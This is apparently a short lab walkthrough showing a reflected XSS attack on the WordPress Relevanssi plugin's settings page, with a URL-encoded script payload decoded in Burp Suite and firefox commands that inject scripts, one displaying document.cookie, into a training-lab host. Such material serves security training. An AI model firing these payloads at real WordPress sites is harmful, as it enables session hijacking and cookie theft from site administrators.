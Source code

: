 `burpsuite` > `Decoder`

`Input`:
```
/wp-admin/options-general.php?page=relevanssi%2Frelevanssi.php&tab='><SCRIPT>var+x+%3D+String(%2FXSS%2F)%3Bx+%3D+x.substring(1%2C+x.length-1)%3Balert(x)<%2FSCRIPT><BR+
```
`Decode as URL`:
```
/wp-admin/options-general.php?page=relevanssi/relevanssi.php&tab='><SCRIPT>var x = String(/XSS/);x = x.substring(1, x.length-1);alert(x)</SCRIPT><BR 
```

`firefox "https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-admin/options-general.php?page=relevanssi/relevanssi.php&tab='><SCRIPT>var x = String(/TEST/);x = x.substring(1, x.length-1);alert(x)</SCRIPT><BR" &`

![Lab - WordPress Relevanssi plugin XSS 3](./assets/03_xss_attacks_lab_wordpress_relevanssi_plugin_xss_3.png)

`firefox "https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-admin/options-general.php?page=relevanssi/relevanssi.php&tab='><SCRIPT>alert(document.cookie);</SCRIPT><BR" &`
